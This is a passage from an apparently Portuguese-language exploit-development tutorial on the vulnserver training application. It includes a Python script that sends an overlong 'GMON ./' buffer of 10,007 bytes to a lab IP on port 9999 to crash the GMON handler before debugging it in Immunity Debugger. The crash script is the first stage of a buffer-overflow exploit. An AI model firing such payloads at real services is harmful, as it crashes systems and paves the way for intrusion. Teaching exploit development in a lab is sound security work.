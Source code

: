 Podemos ver que o script parou ao enviar 10.007 bytes constituidos da repetição de “./././”, se voltarmos ao codigo fonte que analisamos no inicio, veremos que o GMON espera receber “/” para ativar a função vulnerável.

Vamos esboçar nosso script.

xplgmon.py:

```python
#!/usr/bin/python3

import socket

ip = "192.168.1.30"
porta = 9999

offset = 10007

payload = b"GMON ./"
payload += b"A" * offset

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()
print("Payload enviado.")
```

Preparando o vulnserver no Immunity Debbuger, vamos ver seu comportamento.

![Enumaração do comando.](/std/winbof/winbof-48.png)
